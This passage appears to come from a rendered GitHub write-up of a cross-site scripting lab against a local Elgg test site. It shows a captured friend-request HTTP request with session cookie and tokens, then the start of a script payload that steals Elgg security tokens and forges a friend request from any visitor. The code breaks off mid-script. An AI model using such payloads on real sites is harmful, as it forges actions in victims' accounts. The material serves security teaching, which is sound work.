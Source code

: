 Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">So construct the payload that forges the user's friend request as:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span> <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>"<span class="pl-kos">&gt;</span>
  <span class="pl-smi">window</span><span class="pl-kos">.</span><span class="pl-en">onload</span> <span class="pl-c1">=</span> <span class="pl-k">function</span> <span class="pl-kos">(</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
    <span class="pl-k">var</span> <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-c1">null</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">ts</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_ts="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_ts</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">token</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_token="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_token</span><span class="pl-kos">;</span>
    <span class="pl-c">//Construct the HTTP request to add Samy as a friend.</span>
    <span class="pl-k">var</span> <span class="pl-s1">sendurl</span> <span class="pl-c1">=</span>
      <span class="pl-s">"http://www.xsslabelgg.com/action/friends/add?friend=47"</span> <span class="pl-c1">+</span> <span class="pl-s1">ts</span> <span class="pl-c1">+</span> <span class="pl-s1">token</span><span class="pl-kos">;</span> <span class="pl-c">//FILL IN</span>
    <span class="pl-c">//Create and send Ajax request to add friend</span>
    <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
